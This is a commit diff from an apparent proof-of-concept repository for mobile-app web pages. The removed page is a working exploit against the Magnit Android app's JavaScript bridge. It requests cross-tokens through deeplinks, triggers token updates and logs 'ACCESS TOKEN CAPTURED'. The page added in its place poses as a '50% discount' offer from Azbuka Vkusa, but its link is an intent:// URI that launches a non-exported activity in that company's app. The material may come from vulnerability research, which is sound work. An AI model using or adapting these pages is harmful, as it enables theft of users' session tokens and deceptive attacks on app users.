

Before and after one commit to Incidencer/poc-drive, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,178 +1,6 @@
-<!DOCTYPE html>
-<html>
-<head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>PoC — magnit://web JS Bridge</title>
-    <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; }
-        body {
-            font-family: monospace;
-            background: #0d1117;
-            color: #c9d1d9;
-            padding: 16px;
-            font-size: 13px;
-        }
-        h1 {
-            color: #f85149;
-            font-size: 16px;
-            margin-bottom: 12px;
-            border-bottom: 1px solid #21262d;
-            padding-bottom: 8px;
-        }
-        .log-entry {
-            background: #161b22;
-            border: 1px solid #21262d;
-            border-radius: 6px;
-            padding: 10px 12px;
-            margin-bottom: 8px;
-            word-break: break-all;
-        }
-        .log-entry .label {
-            color: #f0883e;
-            font-weight: bold;
-            font-size: 11px;
-            text-transform: uppercase;
-            margin-bottom: 4px;
-        }
-        .log-entry .value {
-            color: #7ee787;
-        }
-        .log-entry .error {
-            color: #f85149;
-        }
-        .log-entry .time {
-            color: #8b949e;
-            font-size: 10px;
-            float: right;
-        }
-        #status {
-            background: #161b22;
-            border: 1px solid #21262d;
-            border-radius: 6px;
-            padding: 10px;
-            margin-bottom: 12px;
-            text-align: center;
-        }
-        #status.ok { border-color: #7ee787; }
-        #status.fail { border-color: #f85149; }
-    </style>
-</head>
-<body>
-    <h1>magnit://web JS Bridge PoC</h1>
-    <div id="status">Initializing...</div>
-    <div id="log"></div>
-
-    <script>
-    var logDiv = document.getElementById('log');
-    var statusDiv = document.getElementById('status');
-
-    function ts() {
-        return new Date().toLocaleTimeString();
-    }
-
-    function log(label, value, isError) {
-        var entry = document.createElement('div');
-        entry.className = 'log-entry';
-        entry.innerHTML =
-            '<span class="time">' + ts() + '</span>' +
-            '<div class="label">' + label + '</div>' +
-            '<div class="' + (isError ? 'error' : 'value') + '">' + value + '</div>';
-        logDiv.insertBefore(entry, logDiv.firstChild);
-    }
-
-    // === INFO ===
-    log('URL', window.location.href);
-    log('User-Agent', navigator.userAgent);
-    if (document.referrer) log('Referrer', document.referrer);
-
-    // === CHECK JS BRIDGE ===
-    var bridgeAvailable = (typeof Android !== 'undefined' && typeof Android.postMessage === 'function');
-
-    if (bridgeAvailable) {
-        statusDiv.textContent = 'JS Bridge Android.postMessage() — AVAILABLE';
-        statusDiv.className = 'ok';
-        log('JS Bridge', 'Android.postMessage() is accessible', false);
-    } else {
-        statusDiv.textContent = 'JS Bridge — NOT AVAILABLE (open via magnit://web?url=)';
-        statusDiv.className = 'fail';
-        log('JS Bridge', 'Android object not found. Page must be opened inside Magnit WebView via magnit://web?url=', true);
-    }
-
-    // === INTERCEPT handleMobileMessage ===
-    window.handleMobileMessage = function(data) {
-        log('handleMobileMessage', data);
-        try {
-            var parsed = JSON.parse(data);
-            if (parsed.token) {
-                log('ACCESS TOKEN CAPTURED', parsed.token);
-            }
-            if (parsed.type) {
-                log('Event Type', parsed.type);
-            }
-        } catch(e) {
-            log('Raw Data', data);
-        }
-    };
-
-    // === INTERCEPT cross_token FROM URL ===
-    var params = new URLSearchParams(window.location.search);
-    var crossToken = params.get('cross_token');
-    if (crossToken) {
-        log('CROSS TOKEN FROM URL', crossToken);
-    }
-
-    if (!bridgeAvailable) {
-        // Stop here if no bridge
-    } else {
-
-        // === ATTACK 1: externalURL + add_crosstoken ===
-        try {
-            Android.postMessage(JSON.stringify({
-                event: 'externalURL',
-                payload: {
-                    url: window.location.href.split('?')[0] + '?method=externalURL&add_crosstoken=true'
-                }
-            }));
-            log('Sent: externalURL', 'Requesting redirect with cross_token appended to this page URL');
-        } catch(e) {
-            log('externalURL', e.message, true);
-        }
-
-        // === ATTACK 2: deeplink → webWithAuth ===
-        try {
-            var targetUrl = window.location.href.split('?')[0] + '?method=deeplink_webWithAuth';
-            Android.postMessage(JSON.stringify({
-                event: 'deeplink',
-                payload: {
-                    url: 'magnit://webWithAuth?url=' + encodeURIComponent(targetUrl) + '&in_app=true'
-                }
-            }));
-            log('Sent: deeplink', 'magnit://webWithAuth → should reload this page with cross_token');
-        } catch(e) {
-            log('deeplink', e.message, true);
-        }
-
-        // === ATTACK 3: updateToken ===
-        try {
-            Android.postMessage(JSON.stringify({
-                event: 'updateToken'
-            }));
-            log('Sent: updateToken', 'Waiting for handleMobileMessage callback with token...');
-        } catch(e) {
-            log('updateToken', e.message, true);
-        }
-
-        // === RECON: options ===
-        try {
-            Android.postMessage(JSON.stringify({
-                event: 'options'
-            }));
-            log('Sent: options', 'Requesting device info...');
-        } catch(e) {
-            log('options', e.message, true);
-        }
-    }
-    </script>
-</body>
-</html>
+<html><body>
+<h1>Специальное предложение Азбука Вкуса</h1>
+<a href="intent://arbitrary#Intent;component=ru.av.vkusomania/.any.NonExportedActivity;S.key=value;end">
+  Получить скидку 50%
+</a>
+</body></html>
```
